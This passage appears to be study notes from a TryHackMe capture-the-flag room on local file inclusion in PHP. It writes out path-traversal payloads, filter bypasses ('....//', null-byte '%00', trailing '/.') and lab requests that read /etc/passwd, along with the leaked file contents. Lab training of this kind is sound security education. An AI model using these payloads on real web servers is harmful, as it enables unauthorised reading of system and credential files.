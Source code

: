 To make it clearer, if we try this concept in the file system using cd .., it will get you back one step; however, if you do cd ., It stays in the current directory.  Similarly, if we try  /etc/passwd/.., it results to be  /etc/ and that's because we moved one to the root.  Now if we try  /etc/passwd/., the result will be  /etc/passwd since dot refers to the current directory.

Now apply this technique in Lab #4 and figure out to read /etc/passwd.

3. Next, in the following scenarios, the developer starts to use input validation by filtering some keywords. Let's test out and check the error message!

http://webapp.thm/index.php?lang=../../../../etc/passwd

We got the following error!

Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15


If we check the warning message in the include(languages/etc/passwd) section, we know that the web application replaces the ../ with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: ....//....//....//....//....//etc/passwd

Why did this work?

This works because the PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass, leaving what is pictured below.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png)

Try out Lab #5 and try to read /etc/passwd and bypass the filter!


4. Finally, we'll discuss the case where the developer forces the include to read from a defined directory! For example, if the web application asks to supply input that has to include a directory such as: http://webapp.thm/index.php?lang=languages/EN.php then, to exploit this, we need to include the directory in the payload like so: ?lang=languages/../../../../../etc/passwd.

Try this out in Lab #6 and figure what the directory that has to be present in the input field is.

```
http://10.10.61.224/lab3.php?file=../../../../etc/passwd%00
File Inclusion Lab

Lab #3: Include a file in the input form below
File Name (welcome)
Current Path
/var/www/html
File Content Preview of ../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false 
```
Give Lab #3 a try to read /etc/passwd. What is the request look like?
*/lab3.php?file=../../../../etc/passwd%00*
```lab4
http://10.10.61.224/lab4.php?file=/../../../../etc/passwd%00
or 
http://10.10.61.224/lab4.php?file=/../../../../etc/passwd/.
or
http://10.10.61.224/lab4.php?file=/etc/passwd/.
```
```error
http://10.10.61.224/lab4.php?file=w
```